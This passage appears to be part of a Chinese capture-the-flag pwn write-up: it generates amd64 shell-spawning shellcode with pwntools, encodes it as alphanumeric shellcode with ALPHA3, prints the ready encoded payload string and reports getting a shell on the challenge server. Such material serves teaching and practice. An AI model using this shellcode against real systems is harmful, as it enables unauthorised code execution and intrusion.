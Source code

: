 然后编写生成我们的shellcode的脚本

```
 from pwn import *
context.arch='amd64'
sc = shellcraft.sh()
print asm(sc) 
```

输出重定向至文本

```
$ python sc.py > sc 
```

使用轮子生成alphanumeric shellcode

```
$ python ./ALPHA3.py x64 ascii mixedcase rax --input="sc" 
```

![在这里插入图片描述](img/5074e12cdbe9c9927b3d60fba06ea2b3.png)

```
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a071N00 
```

连接服务端，发送我们的alphanumeric shellcode，成功getshell

![在这里插入图片描述](img/0122bdca7fcf0a6e5d409dccacf8074b.png)
